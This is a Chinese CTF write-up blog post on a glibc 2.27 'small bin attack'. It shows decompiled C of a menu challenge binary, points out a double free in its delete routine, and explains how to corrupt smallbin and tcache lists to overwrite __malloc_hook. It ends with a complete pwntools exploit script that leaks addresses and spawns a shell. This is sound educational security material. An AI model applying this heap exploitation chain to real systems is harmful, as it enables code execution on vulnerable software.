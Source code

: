 ```yaml
---
layout:     post
title:      "small bin attack"
subtitle:   "关于smallbin的利用"
date:       2019-09-20 11:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - CTF
 
---
```

> 最近刷了道有意思的pwn，做个记录分享一下

## 程序逻辑

Add 函数
```c
unsigned __int64 sub_1340()
{
  unsigned int v1; // [rsp+4h] [rbp-1Ch]
  size_t length; // [rsp+8h] [rbp-18h]
  __int64 price; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  sub_1302();
  printf("What item do you want to buy: ");
  __isoc99_scanf("%d", &v1);
  if ( v1 <= 3 )
  {
    printf("How many: ");
    __isoc99_scanf("%lu", &price);
    printf("How long is your note: ");
    __isoc99_scanf("%d", &length);
    if ( (unsigned int)length <= 0x100 )
    {
      for ( HIDWORD(length) = 0; SHIDWORD(length) <= 47 && qword_4080[SHIDWORD(length)]; ++HIDWORD(length) )
        ;
      if ( HIDWORD(length) != 48 )
      {
        qword_4080[SHIDWORD(length)] = (char *)malloc((unsigned int)(length + 40));
        strcpy(qword_4080[SHIDWORD(length)], (&str_name)[v1]);
        printf("Content: ");
        read(0, qword_4080[SHIDWORD(length)] + 32, (unsigned int)length);
        *(_QWORD *)&qword_4080[SHIDWORD(length)][(unsigned int)length + 32] = price;
        puts("Done!");
      }
    }
  }
  return __readfsqword(0x28u) ^ v4;
}
```

Show 函数

```c
**int sub_1532()
{
  char *v0; // rax
  char *v1; // rax
  char *v2; // rsi
  signed int i; // [rsp+Ch] [rbp-4h]

  for ( i = 0; i <= 47; ++i )
  {
    v0 = qword_4080[i];
    if ( v0 )
    {
      v1 = qword_4080[i];
      v2 = qword_4080[i];
      LODWORD(v0) = printf("Name: %s, Note: %s\n");
    }
  }
  return (signed int)v0;
}
```

Delete 函数

```c
unsigned __int64 sub_1252()
{
  int idx; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Which item are you going to pay for: ");
  __isoc99_scanf("%d", &idx);
  if ( idx >= 0 && idx <= 48 && qword_4080[idx] )
    free(qword_4080[idx]);
  else
    puts("No such item");
  return __readfsqword(0x28u) ^ v2;
}

``` 

漏洞点明显在Delete函数，free时没有将存放chunk的数组置零，造成double free


## 利用思路

泄露libc，heap地址后，可以利用double free来攻击，但是我们每次分配到chunk时，只能从chunk_mem的0x20字节偏移处开始写数据，并不能覆盖到每个chunk的fd指针，所以直接利用double free来实现任意地址分配是不行的。

此题是在glibc2.27环境，tcache可以将一个大的chunk放入它的链表，通过double free，可以让这个大chunk同时存在于unsorted bin与tcache链表中；这时通过大chunk中残留的main_arena值，分配到main_arena，覆盖smallbin[3]（也就是管理大小为0x50的一个链表结构）为一个可控的fake_chunk(该fake_chunk的大小为0x41，且里面的fd与bk指针要指向smallbin[3]的chunk头)，再分配到这个0x50大小的chunk以此来构造overlap chunk(由于写入数据时main_arena的top指针会被覆盖成商品名称，所以后期不能从top_chunk分配，之前就要构造好chunk结构），最后利用tcache poisoning覆盖到malloc_hook与realloc_hook


## EXP

```python
from pwn import *

#context.log_level = 'debug'

p = process('./amazon')
#p=remote("121.41.38.38",9999)
libc=ELF("./libc-2.27.so")

def g(p,data=False):
    gdb.attach(p,data)
    raw_input()

def ru(x):
    return p.recvuntil(x)
    
def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def rl():
    return p.recvline()

def re(x):
    return p.recv(x)

def add(idx,price,length,data):
	ru("Your choice: ")
	sl(str(1))
	ru("uy: ")
	sl(str(idx))
	ru("many: ")
	sl(str(price))
	ru("note: ")
	sl(str(length))
	ru("tent: ")
	se(data)

def add2(idx,price,length):
	ru("Your choice: ")
	sl(str(1))
	ru("uy: ")
	sl(str(idx))
	ru("many: ")
	sl(str(price))
	ru("note: ")
	sl(str(length))

def show():
	ru("Your choice: ")
	sl(str(2))

def free(idx):
	ru("Your choice: ")
	sl(str(3))
	ru("for: ")
	sl(str(idx))

add(1,0x10,0x90,"1"*8) #chunk0 (leak_main_arena)
add(1,0x10,0x80,p64(0)) #chunk1 (There's a fake chunk in it.)
free(1)
add(1,0x10,0x30,"3"*8) #chunk2 (dotcache poisoning)  ## chunk1 can overflow  to chunk2
free(2)
add(1,0x10,0x20,"4"*8)
add(1,0x10,0x20,"2"*8)
free(0)
free(0)
show()
ru("Name: ")
heap=u64(re(6).ljust(8,"\x00"))-0x260
print hex(heap)

for i in range(6):
    free(0)

show()
ru("Name: ")
lib=u64(re(6).ljust(8,"\x00"))-0x3ebca0
print hex(lib)

hook=libc.symbols["__malloc_hook"]
hook=lib+hook
print hex(hook)
one=lib+0x10a38c
realloc=lib+libc.symbols["realloc"]

add(1,0x10,0x80,"y"*0x60+p64(0)+p64(0x51)+p64(lib+0x3ebce0)*2) # malloc to chunk1 (set fake_chunk and its fd bk -> small bin[3]_head)

add(1,0x10,0x90,"1"*8)  # malloc padding 

add(1,0x10,0x90,p64(lib+0x3ebcb0)*2+p64(lib+0x3ebcc0)*2+p64(lib+0x3ebcd0)*2+p64(heap+0x340+0x60)*2) ## malloc to main_arena to modify smallbin[3] to fake_chunk
add(1,0x10,0x20,p64(hook-0x28))  ## malloc to fake_chunk, edit，and overflow to chunk2 
add(1,0x10,0x30,"wwe")

add(1,0x10,0x30,p64(one)+p64(realloc+0x9))

add2(1,1,0x60)

p.interactive()



```
>[题目链接](https://github.com/yxshyj/project/tree/master/pwn/small_bin_attack)